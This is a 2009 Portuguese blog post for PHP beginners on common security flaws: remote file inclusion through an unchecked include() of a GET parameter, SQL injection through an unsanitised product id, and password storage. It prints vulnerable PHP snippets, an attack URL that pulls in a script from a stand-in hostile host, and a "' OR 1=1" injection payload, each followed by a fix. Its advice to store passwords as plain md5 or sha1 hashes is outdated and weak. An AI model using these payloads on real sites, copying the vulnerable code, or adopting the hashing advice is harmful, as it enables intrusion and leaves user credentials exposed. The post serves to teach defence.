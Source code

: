 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...

Não prometo deixar o seu sistema tão protegido quanto o [](/arquivos/2009/03/cadillac-one.jpg) mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.

Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.

<h4>Cuidados com a URL - Parte I</h4>
Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:


[code language="php"]
<?php
	// Verifica se a variável $_GET['pagina'] existe
	if (isset($_GET['pagina'])) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

E na URL do site ficaria:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span>

Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span>

O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.

Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:


[code language="php" wrap="false"]
<?php
	// Define uma lista com os arquivos que poderão ser chamados na URL
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');

	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.

<h4>Cuidados com a URL - Parte II</h4>
Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.

Geralmente o formato é o seguinte:
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span>
ou
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span>

Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:


[code language="php"]
<?php
// Formato da URL:
//  http://www.meusite.com.br/produtos.php?id=12

// Salva o parâmetro da URL numa variável
$produto = $_GET['id'];

// Monta a consulta MySQL
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";

// Executa a query
$query = mysql_query($sql);

// Salva o resultado (em formato de array) em uma variável
$resultado = mysql_fetch_assoc($query);

?>
[/code]

A sua consulta ao MySQL ficaria da seguinte forma:


[code language="sql"]
SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1
[/code]

Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:

<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span>

Agora a sua query MySQL fica assim:


[code language="sql"]
SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1
[/code]

Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.

Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:


[code language="php"]
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro
$produto = (int)$_GET['id'];
[/code]

Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!

Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)

Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.

Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:


[code language="php"]
$parametro = mysql_real_escape_string($_GET['nome']);
[/code]

Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.

<h4>Sobre Usuários e Senhas</h4>
Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.

Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.

Se quiser saber como funciona criptografica no PHP é só ver esse post:» [Criptografia no PHP usando md5, sha1 e base64](/criptografia-no-php-usando-md5-sha1-e-base64)

Espero que tenham gostado. :)

